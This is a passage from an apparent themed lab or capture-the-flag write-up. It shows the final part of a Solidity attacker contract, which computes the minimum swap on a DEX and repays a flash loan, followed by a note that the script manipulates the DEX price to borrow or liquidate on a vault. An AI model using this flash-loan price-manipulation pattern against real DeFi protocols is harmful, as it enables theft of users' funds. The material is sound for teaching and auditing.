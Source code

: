 ```solidity
            uint256 left = 1;
            uint256 right = swapBalance;
            uint256 minSwap = right;
            bool enough = false;

            while (left <= right) {
                uint256 mid = (left + right) / 2;
                uint256 out;
                if (address(repayToken) == address(tokenA)) {
                    out = (pym.reserveA() * mid) / (pym.reserveB() + mid);
                } else {
                    out = (pym.reserveB() * mid) / (pym.reserveA() + mid);
                }

                if (out >= needed) {
                    minSwap = mid;
                    right = mid - 1;
                    enough = true;
                } else {
                    left = mid + 1;
                }
            }

            if (enough) {
                swapFrom.approve(address(pym), minSwap);
                if (address(repayToken) == address(tokenA)) pym.swapExactBForA(minSwap, address(this));
                else pym.swapExactAForB(minSwap, address(this));
            } else if (swapBalance > 0) {
                swapFrom.approve(address(pym), swapBalance);
                if (address(repayToken) == address(tokenA)) pym.swapExactBForA(swapBalance, address(this));
                else pym.swapExactAForB(swapBalance, address(this));
            }
        }

        // Transfer repayment
        uint256 repayFinal =
            repayToken.balanceOf(address(this)) < repayAmount ? repayToken.balanceOf(address(this)) : repayAmount;
        if (repayFinal > 0) {
            repayToken.transfer(msg.sender, repayFinal);
        }
    }
}
```

---
>[!NOTE]
This is the attacker’s script. It does three things in sequence:
1. Takes out a flash loan (Ant-Man grabbing liquidity from the Quantum Realm).
2. Uses it to manipulate the PymDEX price.
3. Calls StarkVault to borrow or liquidate while the price is skewed.
